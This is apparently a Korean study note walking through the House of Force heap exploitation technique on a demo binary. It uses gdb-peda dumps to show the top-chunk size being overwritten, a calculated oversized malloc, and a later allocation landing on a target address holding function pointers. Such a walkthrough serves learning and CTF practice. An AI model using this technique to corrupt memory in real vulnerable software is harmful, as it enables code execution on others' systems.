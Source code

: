 간단한 익스코드다

```c
gdb-peda$ x/32gx 0x1a00000
0x1a00000:      0x0000000000000000      0x0000000000000031
0x1a00010:      0x6161616161616161      0x6161616161616161
0x1a00020:      0x6161616161616161      0x6161616161616161
0x1a00030:      0x6161616161616161      0xffffffffffffffff
```

먼저 이렇게 top chunk의 size를 최대한으로 overwrite한다. 이렇게 바꾸게되면 아무리 큰size로 할당하더라도 sysmalloc이나 mmap이 호출되지 않는다.

```c
   0x4008c9 <main+168>: call   0x4006a0 <getchar@plt>
   0x4008ce <main+173>: mov    rax,QWORD PTR [rbp-0x28]
   0x4008d2 <main+177>: mov    rdi,rax
=> 0x4008d5 <main+180>: call   0x4006c0 <malloc@plt>
   0x4008da <main+185>: mov    QWORD PTR [rbp-0x18],rax
   0x4008de <main+189>: mov    edi,0x20
   0x4008e3 <main+194>: call   0x4006c0 <malloc@plt>
   0x4008e8 <main+199>: mov    QWORD PTR [rbp-0x10],rax
Guessed arguments:
arg[0]: 0xfffffffffe0ff010
```

계산한 size로 malloc

```c
gdb-peda$ ar
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x601050 (size : 0x1f00fd8) (top is broken ?)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
```

top chunk 가 target address로 들어갔다.

```c
gdb-peda$ x/32gx 0x601080 - 0x30
0x601050:       0x00007f18b7d52e70      0x0000000000000031
0x601060:       0x00000000004006f6      0x0000000000000000
0x601070:       0x0000000000000000      0x0000000000000000
```

다시 malloc을 하게 되면 top chunk 위치였던 곳에 chunk가 할당된다.

```c
gdb-peda$ x/32gx 0x601080 - 0x30
0x601050:       0x00007f18b7d52e70      0x0000000000000031
0x601060:       0x0000000000400806      0x0000000000400806
```
